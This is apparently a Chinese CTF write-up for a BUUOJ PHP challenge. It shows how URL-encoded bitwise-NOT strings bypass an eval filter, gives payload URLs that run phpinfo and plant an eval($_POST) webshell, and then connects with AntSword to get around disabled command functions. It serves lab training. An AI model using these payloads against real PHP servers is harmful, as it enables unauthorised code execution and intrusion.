 [浅谈PHP代码执行中出现过滤限制的绕过执行方法_php绕过eval过滤-CSDN博客](https://blog.csdn.net/mochu7777777/article/details/104631142)

```php
<?php

$c='phpinfo';
$d=urlencode(~$c);
echo $d;
?>

```

payload：`[phpinfo() (buuoj.cn)](http://f05286e9-6fd9-4139-88d1-8e277cbea673.node4.buuoj.cn/?code=(~%8F%97%8F%96%91%99%90)();)`

查看被禁用的函数

![image-20231218134002464](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218134002464.png)

可以看到是PHP7，但是system、exec、shell_exec等命令执行的函数都被禁止了，先构造个Shell连上看一下：

```php
<?php 
error_reporting(0);
$a='assert';
$b=urlencode(~$a);
echo $b;
echo "<br>";
$c='(eval($_POST[mochu7]))';
$d=urlencode(~$c);
echo $d;
 ?>
```

payload：`http://f05286e9-6fd9-4139-88d1-8e277cbea673.node4.buuoj.cn/?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%92%90%9C%97%8A%C8%A2%D6%D6);`

蚁剑连接：

![image-20231218140437915](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218140437915.png)

选择插件绕过：

![image-20231218140401105](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218140401105.png)

![image-20231218140331912](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218140331912.png)